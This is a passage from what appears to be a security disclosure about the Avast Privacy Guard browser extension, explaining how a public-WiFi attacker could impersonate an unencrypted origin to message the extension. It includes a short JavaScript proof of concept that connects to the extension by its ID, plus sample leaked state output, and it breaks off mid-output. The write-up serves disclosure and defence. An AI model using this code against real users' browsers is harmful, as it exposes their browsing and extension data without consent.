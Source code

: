 Why this matters: when your browser requests `example.securebrowser.com` website over an unencrypted HTTP connection, it cannot be guaranteed that your browser is actually talking to an Avast web server. In fact, any response is *guaranteed* to come from a malicious web server because to such website exists.

One way you might get a response from such a malicious web server is connecting to a public WiFi. In principle, anyone connected to the same WiFi could redirect unencrypted web requests to their own malicious web server, inject an invisible request to `example.securebrowser.com` in a frame (which would also be handled by their malicious server) and gain the ability to message Privacy Guard extension. While not common, this kind of attack [did happen in the wild](https://www.bleepingcomputer.com/news/security/australian-charged-for-evil-twin-wifi-attack-on-plane/).

And what does someone get then? Let me show you:

```js
chrome.runtime.connect("onochehmbbbmkaffnheflmfpfjgppblm", {name: "PG_STORE"})
  .onMessage.addListener(x => console.log(x));
```

This establishes a connection to the extension and logs all incoming messages. One message is received immediately:

```json
{
  "type": "chromex.state",
  "payload": {
    "main": {
      "settings": {
        "paused": false,
        "off": false,
        "blockingMode": "strict",
        "showIconBadge": true,
        "fingerprintEnabled": true,
        "previousBlockingModeIsOff": false
      },
      "pausedDomains": [],
      "whitelist": [],
      "afpWhitelist": [],
      "installationInfo": {
        "hostPrefix": "",
        "noProBrand": false,
        "urls": {
          "faqUrl": "https://extension.securebrowser.com/privacy-guard/learn-more/",
          "proUrl": "https://extension.securebrowser.com/privacy-guard/offer/"
        },
        "whitelists": {
          "whitelist": "https://update.avastbrowser.com/adblock/assets/v3/document_whitelist.txt",
          "filterWhitelist": "https://update.avastbrowser.com/adblock/assets/v3/filter_whitelist.txt",
          "searchWhitelist": "https://update.avastbrowser.com/adblock/assets/v3/search_document_whitelist.txt"
        }
      },
      "isProUser": false,
      "blockedAdsCount": 12
    },
    "tabs": {
      "391731034": {
        "adsBlocked": 0,
        "fingerprintAttempts": 0,
        "adsAllowed": 0,
        "listAdsBlocked": [],
        "listAdsAllowed": [],
        "pageAllowed": false,
        "isInternal": false,
        "domainIsPaused": false,
```